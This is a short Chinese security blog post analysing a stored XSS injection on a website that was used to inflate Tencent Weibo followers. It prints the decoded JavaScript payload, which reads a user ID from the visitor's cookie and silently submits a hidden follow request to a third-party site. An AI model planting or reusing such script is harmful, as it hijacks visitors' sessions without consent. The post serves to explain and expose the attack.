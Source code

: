 ```yaml
---
layout: post
title: "存储型XSS应用-微博刷粉"
date: 2016-08-03 11:34:13 +0800
comments: true
categories: security
---
```

目前腾讯监控系统发现space.aili.com存在大量恶意的请求，通过xxx.qq.com以期望达到刷微博粉丝的效果

被插入代码截图如下（每个页面都有，框架被修改）

![](http://jason5.cn/images/xss-weibo1.png)

被插入的恶意代码为：

![](http://jason5.cn/images/xss-weibo3.png)

解码后为:

![](http://jason5.cn/images/xss-weibo4.png)

格式化

```javascript
(function() {
    window.u = "chunxi_lu";
    window.mm = document.createElement("div");
    window.mm.innerHTML = "<iframe style='display:none' name='mj'></iframe><form method='POST' id='mi' action='http://radio.t.qq.com/mini/follow.php' target='mj'><input type='hidden' value='" + window.u + "' name='u'/><input type='hidden' value='" + ((document.cookie.match(/(?:^|\s)uin=o(\d+)/) || ["", ""])[1] | 0) + "' name='uin'/></form>";
    document.body.appendChild(window.mm);
    document.getElementById("mi").submit();
})()
```

粉丝数刷到3w+

![](http://jason5.cn/images/xss-weibo2.png)
